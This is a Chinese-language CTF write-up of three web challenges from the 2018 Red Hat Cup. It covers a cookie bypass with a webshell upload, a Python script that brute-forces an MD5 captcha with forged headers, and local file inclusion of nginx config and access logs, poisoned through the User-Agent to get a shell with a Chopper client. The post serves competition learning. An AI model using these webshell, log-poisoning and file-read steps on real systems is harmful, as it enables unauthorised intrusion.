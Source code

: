 ```yaml
---
title: 2018红帽杯三道Web
date: 2018-05-06 00:00:00
categories:
- CTF/Web
tags: 日志包含 md5爆破 CknifePHP7
--- 
```


三道质量不高的Web题目

## simple upload

- 修改cookie：admin=1登录
- 上传点更改文件类型`image/jpeg`，上传木马
- 发现报错页面是tomcat，上传jsp一句话
- 上菜刀，根目录找到flag

## shopping log

通过提示加上三个请求头：

```
"Accept-Language": "ja",
"Referer":"www.DWW.com",
"Host":"www.tmvb.com"
```

得到一个检查四位单号的页面，验证码需要爆破md5，这里为了不验证错过采用了递归，脚本如下：

```python
import requests,re,hashlib,sys
global s

s=requests.Session()
headers = {
	"Accept-Language": "ja",
	"Referer":"www.DWW.com",
	"Host":"www.tmvb.com"
}
url1="http://123.59.141.153/5a560e50e61b552d34480017c7877467info.php"
url2="http://123.59.141.153/api.php?action=report"

def check(c):
	for j in range(10000000):
		fd = hashlib.md5()
		fd.update(str(j))
		x = fd.hexdigest()
		if(x[0:6] == c):
			return j

def send(num):
	print "[+]send the "+str(num)+" requests"
	a=s.get(url=url1,headers=headers)
	b = re.search(r"=== '(.*?)'",a.content, flags=0)
	code=b.group(1)
	realcode=check(code)
	data={
	"TxtTid":str(num).zfill(4),
	"code" : str(realcode)
	}
	print "[+]"+str(data)
	result = s.post(url=url2,headers=headers,data=data)

	if "Code" in result.content:
		print "[-]resending......"
		return send(num)
	else:
		return result.content

for i in range(9587,9589):
	print "[+]"+str(send(i))
```

提示应倒着爆破，最终尝试到9588返回flag

## biubiubiu

有点迷的一道题，登录上去的访问网页的输入框研究半天，请求打到自己服务器上没发现什么多余的，回头看文件包含。尝试包含了nginx配置文件成功：

```
/etc/nginx/nginx.conf
```

尝试包含日志成功

```
/var/log/nginx/access.log
```

- 因为本题是i春秋的环境，日志过大直接重新创建环境
- 思路非常清楚了，在UA里写一句话，然后菜刀连文件包含的日志
- getshell以后找到config，flag在数据库里。
- 这里有个要注意的是先打phpinfo，发现是php7，于是换用php7的菜刀

[CknifePHP7.rar](https://pan.baidu.com/s/1d28kqi)
